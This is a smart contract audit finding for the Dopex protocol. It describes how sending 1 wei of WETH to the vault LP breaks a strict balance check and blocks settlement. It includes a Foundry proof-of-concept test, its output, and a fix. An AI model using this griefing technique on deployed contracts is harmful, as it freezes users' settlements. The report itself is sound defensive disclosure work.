# Dopex

The code under review can be found in [2023-08-dopex](https://github.com/code-423n4/2023-08-dopex).

## Findings summary

| ID                                                                                                                                                                                        | Title                                                                                                 | Summary |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- | ------- |
| [H-01](https://github.com/kazantseff/audits/blob/main/contests/2023-08-dopex.md#m-01-substractloss-function-in-perpetualatlanticvaultlp-can-revert-and-cause-the-settlement-proccess-dos) | `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS | High    |

## [H-01] `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS

### Vulnerability details

The `substractLoss()` function of PerpetualAtlanticVaultLP is called in the settlement proccess of PerpetualAtlanticVault and can revert and cause DoS if the malicious user sends 1 wei of collateral to the PerpetualAtlanticVaultLP.
When calling `settle()` in PerpetualAtlanticVault few actions are made:

1.  The collateral is transfered from PerpetualAtlanticVaultLP:

```solidity
 collateralToken.safeTransferFrom(
     addresses.perpetualAtlanticVaultLP,
     addresses.rdpxV2Core,
     ethAmount
   );
```

2. The `substractLoss()` is invoked with ethAmount:

```solidity
IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
    ethAmount
  );
```

The root cause of the issues is that `substractLoss()` uses strict equality in the require statement.

```solidity
require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
```

If prior to the settlement a malicious user transfers 1 wei of WETH to the PerpetualAtlanticVaultLP, this check will always fail since `collateral.balanceOf(address(this)) - ethAmount` will be greater than `_totalCollateral - ethAmount` by 1 wei.

### Impact

The settlement proccess will be DoS'ed.

### Proof Of Concept

```solidity
function testSettleRevert() public {
      // Mint weth to a malicious user
      address maliciousUser = address(1);
      weth.mint(maliciousUser, 1000 * 1e18);

      // make bond
      rdpxV2Core.bond(5 * 1e18, 0, address(this));
      rdpxV2Core.bond(1 * 1e18, 0, address(this));

      vault.addToContractWhitelist(address(rdpxV2Core));
      uint256[] memory _ids = new uint256[](1);

      _ids[0] = 0;
      rdpxPriceOracle.updateRdpxPrice(1e7);
      // the vault balance before attack
      console.log(
          "VaultLp Balance Before attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral before Attack",
          vaultLp.totalCollateral()
      );

      // send 1 wei to PerpetualAtlanticVaultLp
      vm.prank(maliciousUser);
      weth.transfer(address(vaultLp), 1);
      // balance after malicious user transfered 1 wei
      console.log(
          "VaultLp Balance After Attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after Attack",
          vaultLp.totalCollateral()
      );
      // the settlement reverts due to the check in PerpetualAtlanticVaultLP
      vm.expectRevert("Not enough collateral was sent out");
      rdpxV2Core.settle(_ids);

      // Skip 8 days to call PerpetualAtlanticVault.updateFundingPaymentPointer() to invoke addProceeds()
      skip(691200);
      vault.updateFundingPaymentPointer();
      // The balance is now updated as well as collateral becuase of the addProceeds() function
      console.log(
          "VaultLp Balance After addProceeds() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after addProceeds() is called",
          vaultLp.totalCollateral()
      );
      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);

      // trying to use deposit to fix the issue
      vaultLp.deposit(1e18, address(msg.sender));
      console.log(
          "VaultLp Balance After deposit() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after deposit() is called",
          vaultLp.totalCollateral()
      );

      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);
  }

```

The output of the state:

```
VaultLp Balance Before attack: 100000000000000000000
VaultLp _totalCollateral Before Attack 100000000000000000000

VaultLp Balance After Attack: 100000000000000000001
VaultLp _totalCollateral After Attack 100000000000000000000

VaultLp Balance After addProceeds() is called: 100367540499850000000
VaultLp _totalCollateral after addProceeds() is called 100367540499849999999

VaultLp Balance After deposit() is called: 101367540499850000000
VaultLp _totalCollateral after deposit() is called 101367540499849999999
```

As you can see `_totalCollateral` is always 1 wei lesser than contract balance.

### Recommended Mitigation Steps

Either remove the require check or make it less strict:

```diff
- require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
+ require(collateral.balanceOf(address(this)) >= _totalCollateral - loss,"Not enough collateral was sent out");
```
